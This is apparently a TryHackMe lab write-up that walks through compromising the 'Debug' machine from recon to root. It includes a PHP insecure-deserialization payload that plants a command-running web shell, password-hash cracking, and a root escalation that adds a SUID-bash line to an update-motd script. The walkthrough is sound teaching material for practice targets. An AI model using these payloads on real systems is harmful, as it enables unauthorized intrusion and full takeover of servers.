 --------------------

### TRYHACKME
### Lab: Debug:

--------------------

![image](https://github.com/user-attachments/assets/7a87a1ed-8d4c-43fd-a5f9-0a391f20067c)


### Recon

- Rustscan's output

      ❯ rustscan -a 10.10.201.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.201.128:22
      Open 10.10.201.128:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                                                                        
                                                                                                                                                       
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:03 EDT                                                                           
      NSE: Loaded 156 scripts for scanning.                                                                                                            
      NSE: Script Pre-scanning.                                                                                                                        
      NSE: Starting runlevel 1 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 2 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 3 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      Initiating Ping Scan at 16:03                                                                                                                    
      Scanning 10.10.201.128 [2 ports]                                                                                                                 
      Completed Ping Scan at 16:03, 0.15s elapsed (1 total hosts)                                                                                      
      Initiating Parallel DNS resolution of 1 host. at 16:03                                                                                           
      Completed Parallel DNS resolution of 1 host. at 16:03, 0.02s elapsed
      DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:03
      Scanning 10.10.201.128 [2 ports]
      Discovered open port 22/tcp on 10.10.201.128
      Discovered open port 80/tcp on 10.10.201.128
      Completed Connect Scan at 16:03, 0.18s elapsed (2 total ports)
      Initiating Service scan at 16:03
      Scanning 2 services on 10.10.201.128
      Completed Service scan at 16:03, 6.82s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.201.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:03
      Completed NSE at 16:04, 9.48s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 1.02s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 0.00s elapsed
      Nmap scan report for 10.10.201.128
      Host is up, received syn-ack (0.16s latency).
      Scanned at 2024-08-17 16:03:47 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
      |   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
      |   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/1fa2b2c5-0673-4efb-9a8d-1ac3ee691861)

- Route `/backup` reveals the backup source code files of the site and focus will be on finding vulnerabilities in `index.php.bak`

![image](https://github.com/user-attachments/assets/2c6de75a-dbe1-4217-b4ee-e6cc3209d5ad)


### CODE REVIEW OF index.php
### Main vulnerability: Insecure Deserialization in function `unserialze()`

- Index.php accept a get parameter `debug` which is then unserialized by the `unserialize()` function

      $debug = $_GET['debug'] ?? '';
      $messageDebug = unserialize($debug);

- `Unserialize()` is vulnerable to insecure deserialization which can be used to gain remote code execution as explained in this [site](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)

-  Abusing the unserialize function, we can access class `FormSubmit` which requires variables `form_file` and `message`.This class later runs the `__destruct` magic object to write the value of message to the form_file using the `file_puts_contents()` function.

            class FormSubmit {
            
            public $form_file = 'message.txt';
            public $message = '';
            
            public function SaveMessage() {
            
            $NameArea = $_GET['name']; 
            $EmailArea = $_GET['email'];
            $TextArea = $_GET['comments'];
            
            	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
            
            }
            
            public function __destruct() {
            
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
            echo 'Your submission has been successfully saved!';
            
            }

### Exploit

- Exploit:

         O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:35:"<?php echo system($_GET['cmd']); ?>";}

- This exploit will call class `FormSubmit` and write a  php web shell code to shell.php in the current directory.
- Running it

      http://<ip>/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:9:%22shell.php%22;s:7:%22message%22;s:35:%22%3C?php%20echo%20system($_GET[%27cmd%27]);%20?%3E%22;}

- Our web shell is ready

![image](https://github.com/user-attachments/assets/06daccd3-9901-4409-a667-a2931e43f731)


### Initial Foothold

- Shell as www-data:

![image](https://github.com/user-attachments/assets/052ae04f-6d1b-43f4-bdf1-f340ef67a9aa)

- Running `linpeas.sh` privesc enumeration script  reveals user `james` hash stored in `.htpasswd`

![image](https://github.com/user-attachments/assets/d6e1645e-bbbf-4269-91d3-2b6267aa68e2)

- Cracking the shadow hash with John

![image](https://github.com/user-attachments/assets/3150b002-d493-41a1-83bc-cc0d28c63089)

- SSH access

![image](https://github.com/user-attachments/assets/4440561e-a28a-4ffb-9f4b-0a15e05815d9)

### PRIVESC with update-motd

- An hint in  txt file reveals that we can modify ssh motd `message of the day` files.

![image](https://github.com/user-attachments/assets/287235ea-454f-4631-9eb3-82365bacf793)

- I learnt that `/etc/update-motd.d/` contains such files and I got an exploitation idea from this [site](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/).

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header
      exit
      ssh again
      ./bash -p

- Exploiting the 00-header file

![image](https://github.com/user-attachments/assets/6f9849fe-3709-49e5-9067-5a4d1229ed01)

- Root
  
![image](https://github.com/user-attachments/assets/ae599468-0fb9-4760-abae-a34992083c3c)


### THANKS FOR READING!!!!!!!!








  
  


